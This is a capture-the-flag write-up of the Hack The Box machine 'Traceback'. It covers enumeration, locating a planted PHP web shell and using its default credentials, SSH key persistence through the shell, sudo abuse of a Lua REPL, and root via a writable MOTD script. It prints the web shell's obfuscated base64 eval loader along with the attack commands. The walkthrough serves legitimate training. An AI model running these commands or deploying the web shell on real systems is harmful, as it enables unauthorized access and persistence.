



# HTB - Traceback

## Overview



Short description to include any strange things to be dealt with

## Useful Skills and Tools

#### Useful thing 1

description with generic example

#### Useful thing 2

description with generic example

## Enumeration

### Nmap scan

I started off my enumeration with an nmap scan of `10.10.10.181`. The options I regularly use are: `-p-`, which is a shortcut which tells nmap to scan all TCP ports, `-sC` is the equivalent to `--script=default` and runs a collection of nmap enumeration scripts against the target, `-sV` does a service scan, `-oN <name>` saves the output with a filename of `<name>`.

```text
zweilos@kali:~/htb/traceback$ nmap -p- -sC -sV -oN traceback.nmap 10.10.10.181
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-21 16:39 EDT
Nmap scan report for 10.10.10.181
Host is up (0.048s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)                                        
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)                                      
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))                                                    
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                           
|_http-title: Help us                                                                                  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                                                
                                                                                                       
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .         
Nmap done: 1 IP address (1 host up) scanned in 40.09 seconds
```

The only ports that were open were 22 -SSH and 80 - HTTP. I first tried connecting to ssh:

```text
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
```

I wasn't able to login, but I noticed a banner saying that the system had been owned due to poor configurations by someone named `Xh4H`. 


Connecting to port 80 through a web browser gave me a very similar message. It also said something about a backdoor, so I fired up `gobuster` to see if I could find any other pages since there were no other hints or ways to progress.  

```text
gobuster dir -u http://10.10.10.181 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o traceback.gobuster
```

Unfortunately this did not get me anywhere, as the connection was blocked and I wasn't able to find anything.

Next I tried a web search for `FREE INTERNETZZZ`, which led me to Twitter of all places.


"Pretty interesting collection of webshells:"  says the [author](https://twitter.com/RiftWhiteHat/status/1237311680276647936) of this machine...and posted around the same time as the release \(14 Mar 2020 - See [info card](traceback-write-up.md#overview)\).  This felt a lot like an OSINT-type challenge to me.   Clicking on the post led to a collection of "Some of the best web shells that you might need" at [https://github.com/TheBinitGhimire/Web-Shells](https://github.com/TheBinitGhimire/Web-Shells).

I didn't know which web shell was used, and the hint left by @XH4H only led to a GitHub repository with a collection of shells. I downloaded them all and started poking through the code to see if anything looked familiar, but most of it was obfuscated and I couldn't find the phrase `FREE INTERNETZZZ` in any of the files. So, I created a list of the filenames and used `wfuzz` to check to see if any of them had been uploaded to the site. _\(And I hoped that the filename hadn't been changed!\)_

```bash
zweilos@kali:~/htb/traceback/webshells$ ls -1 > webshells
zweilos@kali:~/htb/traceback/webshells$ wfuzz -c -w webshells --sc 200 http://10.10.10.181/FUZZ
Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.181/FUZZ
Total requests: 34

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                                           
===================================================================

000000016:   200        58 L     100 W    1261 Ch     "smevk.php"                                                                                                                                       
000000033:   200        58 L     100 W    1261 Ch     "smevk.php"                                                                                                                                       

Total time: 1.884043
Processed Requests: 34
Filtered Requests: 32
Requests/sec.: 18.04628
```

## Initial Foothold

Using `wfuzz` I was able to find the web shell used at `http://10.10.10.181/smevk.php`.I navigated to this page and got a login screen.



I opened the code of the `smevk.php` web shell that I had downloaded earlier and didn't have to search long to find what I was looking for.

```text
<?php 
/*
SmEvK_PaThAn Shell v3 Coded by Kashif Khan .
https://www.facebook.com/smevkpathan
smevkpathan@gmail.com
Edit Shell according to your choice.
Domain read bypass.
Enjoy!
*/
//Make your setting here.
$deface_url = 'http://pastebin.com/raw.php?i=FHfxsFGT';  //deface url here(pastebin).
$UserName = "admin";                                      //Your UserName here.
$auth_pass = "admin";                                  //Your Password.
//Change Shell Theme here//
$color = "#8B008B";                                   //Fonts color modify here.
$Theme = '#8B008B';                                    //Change border-color accoriding to your choice.
$TabsColor = '#0E5061';                              //Change tabs color here.
#-------------------------------------------------------------------------------

?>
<?php
$smevk = "PD9waHAKCiRkZWZhdWx0X2FjdGlvbiA9ICdGaWxlc01hbic7CkBkZWZpbmUoJ1NFTEZfUEFUSCcsIF9fRklMRV9fKTsKaWYoIHN0cnBvcygkX1NFUlZFUlsn\
SFRUUF9VU0VSX0FHRU5UJ10sJ0dvb2dsZScpICE9PSBmYWxzZSApIHsKICAgIGhlYWRlcignSFRUUC8xLjAgNDA0IE5vdCBGb3VuZCcpOwog\
ICAgZXhpdDsKfQoKQHNlc3Npb25fc3RhcnQoKTsKQGVycm9yX3JlcG9ydGluZygwKTsKQGluaV9zZXQoJ2Vycm9yX2xvZycsTlVMTCk7CkBp\
bmlfc2V0KCdkaXNwbGF5X2Vycm9ycycsMCk7CkBpbmlfc2V0KCdsb2dfZXJyb3JzJywwKTsKQGluaV9zZXQoJ21heF9leGVjdXRpb25fdGlt\
ZScsMCk7CkBzZXRfdGltZV9saW1pdCgwKTsKQHNldF9tYWdpY19xdW90ZXNfcnVudGltZSgwKTsKaWYoIGdldF9tYWdpY19xdW90ZXNfZ3Bj\
KCkgKSB7CiAgICBmdW5jdGlvbiBzdHJpcHNsYXNoZXNfYXJyYXkoJGFycmF5KSB7CiAgICAgICAgcmV0dXJuIGlzX2FycmF5KCRhcnJheSkg\
PyBhcnJheV9tYXAoJ3N0cmlwc2xhc2hlc19hcnJheScsICRhcnJheSkgOiBzdHJpcHNsYXNoZXMoJGFycmF5KTsKICAgIH0KICAgICRfUE9T\
VCA9IHN0cmlwc2xhc2hlc19hcnJheSgkX1BPU1QpOwp9CgpmdW5jdGlvbiBwcmludExvZ2luKCkgewogaWYgKCRfUE9TVFsncGFzcyddICE9\
ICRhdXRoX3Bhc3MgJiYgJF9QT1NUWyd1bmFtZSddICE9ICRVc2VyTmFtZSkgewogICAgJHN0YXR1cyA9ICdXcm9uZyBQYXNzd29yZCBvciBV\
...snipped...
ZXhpc3RzKCdhY3Rpb24nIC4gJF9QT1NUWydhJ10pICkKICAgIGNhbGxfdXNlcl9mdW5jKCdhY3Rpb24nIC4gJF9QT1NUWydhJ10pCgo/Pg==";
eval("?>".(base64_decode($smevk)));
?>
```

The code came with hard-coded default credentials of `admin:admin`. I tried them out on the login page, and was granted access to the shell page.


When I first started poking around, clicking on buttons and trying to use the shell to enumerate the system I was getting a bit frustrated.  Nothing seemed to be working.  Below are my original notes:

> It seems as if a lot of the functionality was stripped out...most of the buttons do nothing. Never mind...DOESNT WORK IN FIREFOX!!!! &gt; worked just fine in Chromium!

For some reason the web shell did not function properly in Firefox.  When I finally got tired of banging my head against the shell trying to find something that worked, I decided to try opening it in Chromium instead...and everything worked!

```text
zweilos@kali:~/htb/traceback$ echo 'PD9waHAKCiRkZWZhdWx0X2FjdGlvbiA9ICdGaWxlc01hbic7CkBkZWZpbmUoJ1NFTEZfUEFUSCcsIF9fRklMRV9fKTsKaWYoIHN0cnBvcygkX1NFUlZFUlsn\
SFRUUF9VU0VSX0FHRU5UJ10sJ0dvb2dsZScpICE9PSBmYWxzZSApIHsKICAgIGhlYWRlcignSFRUUC8xLjAgNDA0IE5vdCBGb3VuZCcpOwog\
ICAgZXhpdDsKfQoKQHNlc3Npb25fc3RhcnQoKTsKQGVycm9yX3JlcG9ydGluZygwKTsKQGluaV9zZXQoJ2Vycm9yX2xvZycsTlVMTCk7CkBp\
bmlfc2V0KCdkaXNwbGF5X2Vycm9ycycsMCk7CkBpbmlfc2V0KCdsb2dfZXJyb3JzJywwKTsKQGluaV9zZXQoJ21heF9leGVjdXRpb25fdGlt\
ZScsMCk7CkBzZXRfdGltZV9saW1pdCgwKTsKQHNldF9tYWdpY19xdW90ZXNfcnVudGltZSgwKTsKaWYoIGdldF9tYWdpY19xdW90ZXNfZ3Bj\
KCkgKSB7CiAgICBmdW5jdGlvbiBzdHJpcHNsYXNoZXNfYXJyYXkoJGFycmF5KSB7CiAgICAgICAgcmV0dXJuIGlzX2FycmF5KCRhcnJheSkg\
PyBhcnJheV9tYXAoJ3N0cmlwc2xhc2hlc19hcnJheScsICRhcnJheSkgOiBzdHJpcHNsYXNoZXMoJGFycmF5KTsKICAgIH0KICAgICRfUE9T\
VCA9IHN0cmlwc2xhc2hlc19hcnJheSgkX1BPU1QpOwp9CgpmdW5jdGlvbiBwcmludExvZ2luKCkgewogaWYgKCRfUE9TVFsncGFzcyddICE9\
ICRhdXRoX3Bhc3MgJiYgJF9QT1NUWyd1bmFtZSddICE9ICRVc2VyTmFtZSkgewogICAgJHN0YXR1cyA9ICdXcm9uZyBQYXNzd29yZCBvciBV\
c2VyTmFtZSA6KCc7CiAgICAKCn0KCj8' | base64 -d
<?php

$default_action = 'FilesMan';
@define('SELF_PATH', __FILE__);
if( strpos($_SERVER['HTTP_USER_AGENT'],'Google') !== false ) {
    header('HTTP/1.0 404 Not Found');
    exit;
}

@session_start();
@error_reporting(0);
@ini_set('error_log',NULL);
@ini_set('display_errors',0);
@ini_set('log_errors',0);
@ini_set('max_execution_time',0);
@set_time_limit(0);
@set_magic_quotes_runtime(0);
if( get_magic_quotes_gpc() ) {
    function stripslashes_array($array) {
        return is_array($array) ? array_map('stripslashes_array', $array) : stripslashes($array);
    }
    $_POST = stripslashes_array($_POST);
}

function printLogin() {
 if ($_POST['pass'] != $auth_pass && $_POST['uname'] != $UserName) {
    $status = 'Wrong Password or UserName :(';


}

?base64: invalid input
```

After doing some troubleshooting and looking into the code it seems as if the web shell itself is looking for a HTTP\_USER\_AGENT with 'Google' in it. Not sure why this might interfere since it seems to give a 404 error if the user agent IS Google...This may be just to keep the Google bots from crawling the page and discovering the backdoor.  I didn't poke into the code too far, because I had gotten it working and wanted to move on.  Perhaps this is something I could look into in the future.

## Road to User

[https://www.ssh.com/ssh/keygen/](https://www.ssh.com/ssh/keygen/)

`ssh-copy-id -i ~/.ssh/tatu-key-ecdsa user@host` \(site says this works remotely, but would need password it seems so I did it the old fashioned way\)



I noticed that the webshell told me that the username we had control of was `webadmin`, so I decided to try to add my public SSH key to the `.ssh/authorized_keys` file and see if it would let me log in that way. I entered the command`echo "ssh-rsa AAAA<my_public_key> zweilos@kali" >> /home/webadmin/.ssh/authorized_keys` into the `execute` field in the web shell

### Enumeration as `webadmin`

After that it was easy to just SSH into the machine using my own private key.

```text
zweilos@kali:~/htb/traceback$ ssh webadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 

Last login: Thu Feb 27 06:29:02 2020 from 10.10.14.3
webadmin@traceback:~$ whoami && hostname
webadmin
traceback
```

First thing, see if we can execute anything with `sudo` using the `-l` flag

```text
webadmin@traceback:~$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

seems like we can execute the `luvit` program in `sysadmin`'s home folder as that user

### Making user creds

```text
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit
Welcome to the Luvit repl!
>
```

```text
Repl
#

Implementation of a read-execute-print-loop in Luvit. Used by the Luvit repl which is returned when the Luvit binary is executed without args.
```

from [https://www.lua.org/pil/22.2.html](https://www.lua.org/pil/22.2.html) =&gt; os.execute\("mkdir " .. dirname\)

```lua
> os.execute("ls")
note.txt
true    'exit'  0
> os.execute("cat" .. "note.txt")
sh: 1: catnote.txt: not found
nil     'exit'  127
```

So you will need to make sure to put a space between the command and the argument manually, as this seems to just concatenate the two strings then execute. The space can either be at the end of the command or the beginning of the argugments.

```lua
> os.execute("cat" .. " note.txt")
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
true    'exit'  0
> os.execute("ls " .. "/home/sysadmin")
luvit  user.txt
true    'exit'  0
> os.execute("cat " .. "/home/sysadmin/user.txt")
6e0b7c8e082d705212635e729a391419
true    'exit'  0
```

### User.txt

### Getting a shell as `sysadmin`

[https://simion.com/info/calling\_external\_programs.html](https://simion.com/info/calling_external_programs.html)

```text
> os.execute 'echo "ssh-rsa AAAA<my_public_key> zweilos@kali" >> /home/sysadmin/.ssh/authorized_keys'
```

```text
zweilos@kali:~/htb/traceback$ ssh sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Mon Mar 16 03:50:24 2020 from 10.10.14.2
$ whoami
sysadmin
```

## Path to Power \(Gaining Administrator Access\)

### Enumeration as `sysadmin`

start out in `/bin/sh`, which is kind of limiting \(no history or tab completion, etc\) `perl -e 'exec "/bin/bash";'` gets a nice bash shell \(python was not installed...but python3 is... dummy!\)

see all processes from root user `ps -U root -u root ux`

```text
sysadmin@traceback:/$ ps -U root -u root u
USER        PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
...snipped
root        268  0.0  0.4 128080 17252 ?        S<s  14:17   0:00 /lib/systemd/systemd-journald
root        277  0.0  0.1  45732  4556 ?        Ss   14:17   0:02 /lib/systemd/systemd-udevd
root        278  0.0  0.0      0     0 ?        I<   14:17   0:00 [ttm_swap]
root        279  0.0  0.0      0     0 ?        S    14:17   0:00 [irq/16-vmwgfx]
root        287  0.0  0.0 158788   300 ?        Ssl  14:17   0:00 vmware-vmblock-fuse /run/vmblock-fuse 
root        396  0.0  0.2  88224  9700 ?        Ss   14:17   0:00 /usr/bin/VGAuthService
root        398  0.0  0.2 201880 11808 ?        Ssl  14:17   0:05 /usr/bin/vmtoolsd
root        435  0.0  0.0 110512  3556 ?        Ssl  14:17   0:00 /usr/sbin/irqbalance --foreground
root        438  0.0  0.0  31320  3156 ?        Ss   14:17   0:00 /usr/sbin/cron -f
root        440  0.0  0.4 170524 17316 ?        Ssl  14:17   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
root        441  0.0  0.1  70608  5896 ?        Ss   14:17   0:00 /lib/systemd/systemd-logind
root        450  0.0  0.1 287544  6828 ?        Ssl  14:17   0:00 /usr/lib/accountsservice/accounts-daem
...snipped...
root      10010  0.0  0.1  63516  4220 pts/2    S+   16:43   0:00 sudo -u sysadmin /home/sysadmin/luvit
root      10209  0.0  0.0  58792  3152 ?        S    16:52   0:00 /usr/sbin/CRON -f
root      10212  0.0  0.0   4628   812 ?        Ss   16:52   0:00 /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
root      10213  0.0  0.0   7468   840 ?        S    16:52   0:00 sleep 30
```

There is a script running every 30 seconds which restores a backup of the MOTD...I wonder why? I checked both of these directories to see if could edit the files

```text
sysadmin@traceback:/var/backups/.update-motd.d$ cd /etc/update-motd.d/
sysadmin@traceback:/etc/update-motd.d$ ls -la
total 32
drwxr-xr-x  2 root sysadmin 4096 Aug 27  2019 .
drwxr-xr-x 80 root root     4096 Mar 16 03:55 ..
-rwxrwxr-x  1 root sysadmin  981 Jun 22 17:07 00-header
-rwxrwxr-x  1 root sysadmin  982 Jun 22 17:07 10-help-text
-rwxrwxr-x  1 root sysadmin 4264 Jun 22 17:07 50-motd-news
-rwxrwxr-x  1 root sysadmin  604 Jun 22 17:07 80-esm
-rwxrwxr-x  1 root sysadmin  299 Jun 22 17:07 91-release-upgrade
```

These files are editable by `sysadmin`.

```text
sysadmin@traceback:/etc/update-motd.d$ cat 00-header 
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release

echo "\nWelcome to Xh4H land \n"
```

The file `00-header`seem to have been edited already by `Xh4H` when he defaced the site and set up his webshell. Since this is a bash script, can add commands to it that will be run when someone logs in.

### Getting a root shell

every 30 secs the cronjob copies backups from /var/backups/.update-motd.d/ to /etc/update-motd.d/. This is the window where I have to execute the commands I need and initiate my exploit before the backup wipes my progress. I decided to go for broke and simply do the same privesc I had already been using. I copied my public ssh key to `authorized_keys` file, this time in the `/root/.ssh/` folder. In order to execute my command, I needed to run the motd program. This program is automatically run upon login, so I simply connected back to the `sysadmin` user through ssh, then logged out and logged in to `root` using ssh.

```text
sysadmin@traceback:/etc/update-motd.d$ echo 'echo "ssh-rsa AAAA<my_public_key> zweilos@kalimaa" >> /root/.ssh/authorized_keys' >> 00-header
```

```text
zweilos@kalimaa:~/htb/traceback$ ssh root@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Fri Jan 24 03:43:29 2020
root@traceback:~# whoami && hostname
root
traceback
```

### Root.txt

```text
root@traceback:~# cat root.txt 
459b10823b6b0c485f082026477dcfa7
```

\(asdg\)\[testlink\]

Thanks to [`Xh4H`](https://www.hackthebox.eu/home/users/profile/21439) for something interesting or useful about this machine.

If you like this content and would like to see more, please consider supporting me through Patreon at [https://www.patreon.com/zweilosec](https://www.patreon.com/zweilosec).

